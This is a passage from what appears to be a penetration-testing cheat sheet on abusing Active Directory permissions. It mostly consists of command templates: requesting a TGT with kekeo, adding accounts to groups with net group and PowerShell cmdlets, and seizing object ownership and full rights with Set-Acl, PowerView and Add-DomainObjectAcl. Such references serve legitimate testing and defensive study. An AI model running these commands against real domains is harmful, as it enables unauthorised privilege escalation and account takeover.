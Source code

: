 ```
# UPN name format example: USERNAME@DOMAIN_FQDN
kekeo# tgt::ask /subject:"<SUBJECT_NAME_CONTAINS>" /castore:current_user /user:<UPN>
```

Note that in order to get around the replication time between Domain
Controllers, it is recommended to request a `TGT` from the `KDC` of the Domain
Controller on which was done the user object update.

###### Group - GenericAll / GenericWrite / AddMembers / AllExtendedRights / WriteProperty to all properties / WriteProperty to the Member attribute / Self all or Self-Membership

Generic Write access grants the ability to write to any non-protected attribute
on the target object, including `members` for a group.

`net group`, `RSAT`'s `Add-ADGroupMember`, and `PowerView`'s
`Add-DomainGroupMember` PowerShell cmdlets can be used to add others security
objects to the specified group. Additionally, the `Active Directory Users and
Computers` snap-in can be used to add or remove members from Active Directory
groups using a graphical interface.

Note that the `Self-Membership` right does not seem to be exploitable using the
`net group` command but can be exploited using the PowerShell `ActiveDirectory`
module `Add-ADGroupMember`.

```
net group "<GROUP>" <USERNAME> /add /domain

Add-ADGroupMember -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
Add-ADGroupMember -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PSCredentials> -Identity "<GROUP>" -Members <USERNAME>

Add-DomainGroupMember -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
Add-DomainGroupMember -Domain <DOMAIN> -Credential <PSCredentials> -Identity "<GROUP>" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
```

###### User / group - WriteOwner

The `RSAT` `Get-ACL` and `Set-ACL`, and `PowerView`'s `Set-DomainObjectOwner`
PowerShell cmdlets can be used to change the owner of a security object. Being
the owner of an user can be leveraged to change the user password and being the
owner of a group can allows for the addition of others security objects to the
group.

```
$ACL = Get-ACL -Path "AD:<OBJECT_DISTINGUISHED_NAME>"
$Principal = New-Object System.Security.Principal.NTAccount("<DOMAIN>", "<USERNAME | GROUPNAME>")
$ACL.SetOwner($Principal)
Set-Acl -Path "AD:<OBJECT_DISTINGUISHED_NAME>" -AclObject $ACL

Set-DomainObjectOwner -Verbose -Identity <SamAccountName | DistinguishedName | SID | GUID> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>
Set-DomainObjectOwner -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>

# Once the user / group owner is changed, the GenericAll privilege can be granted to users using the new owner identity.
# Refer to the "User - GenericAll" and "Group - GenericAll" parts for further exploitation.
Add-DomainObjectAcl -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights All
```

